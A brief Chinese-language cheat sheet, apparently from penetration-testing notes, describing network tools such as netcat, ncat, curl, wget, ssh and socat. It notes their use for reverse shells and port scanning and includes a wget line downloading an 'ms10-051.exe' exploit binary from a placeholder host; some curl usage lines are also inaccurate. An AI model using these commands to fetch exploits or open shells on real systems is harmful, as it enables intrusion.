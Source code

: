 ## **nc(netcat)**
建立tcp/udp连接，传输数据
常见用法：扫描端口。创建反向shell连接。
  

## **ncat**
nmap工具集的一部分，netcat增强版。
常见用法：反向shell链接

## **curl**
发起请求
用法：
curl -O index.txt    下载文件保存为index.txt
curl "http://xxx.xx" -O index.dat    下载二进制文件保存为index.dat
curl -X POST           post请求
curl -H "xx=xx"       设置请求头

## **wget**
下载文件
wget http://xx/ms10-051.exe -O exploit.exe

## **telnet**
远程登录，远程执行命令，类似ssh，过时。

## **ssh**
ssh服务远程登录，分为服务端和客户端，一般linux自带两端，windows一般自带客户端，
客户端通过：ssh root@192.168.16.178 -A 连接root用户

## **ping**
探测主机可达性和测量网络延迟，ping -i TTL值一般默认128

## **socat**
代理。端口转发。